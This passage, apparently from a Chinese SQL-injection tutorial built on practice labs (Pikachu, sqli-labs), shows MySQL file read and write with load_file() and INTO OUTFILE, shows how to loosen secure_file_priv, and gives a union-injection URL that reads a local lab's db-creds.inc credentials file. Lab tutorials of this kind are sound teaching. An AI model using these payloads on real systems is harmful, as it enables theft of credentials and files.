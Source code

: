 答：此目的是对要查询的数据库进行指定，防止查询不到或者查询到错误信息。
1. 至此，便获取到了“Pikachu漏洞联系平台”的账号和密码。
## 四、文件读写操作
1. 需要用到MySQL数据库特有的两个内置函数。
```
文件读取：
load_file('文件路径')

eg：
mysql&gt; select load_file('C:\ceshi.txt');
+---------------------------+
| load_file('C:\ceshi.txt') |
+---------------------------+
| ceshi                     |
+---------------------------+
1 row in set (0.00 sec)


文件写入：
'文件内容' into outfile '文件路径'
'文件内容' into dumpfile '文件路径'

eg：
mysql&gt; select 'ceshi' into outfile 'C:\\ceshi.txt';
Query OK, 1 row affected (0.00 sec)

mysql&gt; select 'ceshi' into dumpfile 'C:\ceshi.txt';
Query OK, 1 row affected (0.00 sec)
```
1. 查询secure_file_priv 是否有限制。
```
mysql&gt; show global variables like '%secure_file_priv%';
+------------------+-------+
| Variable_name    | Value |
+------------------+-------+
| secure_file_priv |       |
+------------------+-------+
```
|Value值|说明

说明
|NULL|不允许导入或导出

不允许导入或导出
|/tmp|只允许在 /tmp目录导入导出

只允许在 /tmp目录导入导出
|空|不限制目录

不限制目录
1. windows下：修改my.ini 在[mysqld]内加入secure_file_priv =1. linux下：修改my.cnf 在[mysqld]内加入secure_file_priv =
然后重启mysql，再次使用show global variables like '%secure_file_priv%';查询。
1. 注意：进行上述操作时，文件路径里的斜杠最好使用“/”或者“\\”，而不是使用默认的“\”，因为在很多编程语言中“\n”代表换行的意思，可能因此会发生错误。1. 可以使用此函数来进行敏感文件的读取，具体敏感文件路径可以参考下面的资料。
[常见的load_file()读取的敏感信息](https://blog.csdn.net/weixin_30292843/article/details/99381669)
1. 路径的常见获取方法：1. 知道文件路径后进行文件读取。
```
http://localhost/sqli-labs/Less-2/index.php?id=-1%20union%20select%201,load_file(%27C://phpstudy_pro//WWW//sqli-labs//sql-connections//db-creds.inc%27),3
```
